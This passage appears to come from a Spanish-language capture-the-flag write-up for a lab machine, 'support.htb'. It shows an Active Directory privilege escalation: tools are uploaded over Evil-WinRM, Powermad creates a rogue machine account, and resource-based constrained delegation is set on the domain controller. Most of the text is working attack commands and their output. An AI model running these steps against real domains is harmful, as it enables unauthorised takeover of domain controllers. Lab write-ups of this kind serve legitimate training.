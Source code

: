 
Para realizar la escalada necesitamos la suite impacket, powermad y Rubeus

```bash
https://github.com/Kevin-Robertson/Powermad
https://github.com/GhostPack/Rubeus
```

## El primer paso será subir las herramientas powermad y Rubeus

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> upload /opt/Powermad
*Evil-WinRM* PS C:\Users\support\Documents> upload /opt/Rubeus
```

## Importamos Powermad

```powershell
*Evil-WinRM* PS C:\Users\support\Documents\Powermad> Import-Module ./Powermad.ps1 
```


## Seteamos las Variables

```powershell 
*Evil-WinRM* PS C:\Users\support\Documents\Powermad> Set-Variable -Name "elc4br4PC" -Value "ELC4BR4"

*Evil-WinRM* PS C:\Users\support\Documents\Powermad> Set-Variable -Name "targetComputer" -Value "DC"
```


Con Powermad añadimos un nuevo computer object al AD.

```powershell 
New-MachineAccount -MachineAccount (Get-Variable -Name "elc4br4PC").Value -Password $(ConvertTo-SecureString 'elc4br4' -AsPlainText -Force) -Verbose
```


Asiganmos privilegios de delegación:

```bash 
Set-ADComputer (Get-Variable -Name "targetComputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "elc4br4PC").Value + '$')
```

Y comprobamos que el comando funcionó correctamente:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents\Powermad> Get-ADComputer (Get-Variable -Name "targetComputer").Value -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=support,DC=htb
DNSHostName                          : dc.support.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : afa13f1c-0399-4f7e-863f-e9c3b94c4127
PrincipalsAllowedToDelegateToAccount : {CN=ELC4BR4,CN=Computers,DC=support,DC=htb}
SamAccountName                       : DC$
SID                                  : S-1-5-21-1677581083-3380853377-188903654-1000
UserPrincipalName                    :
```
 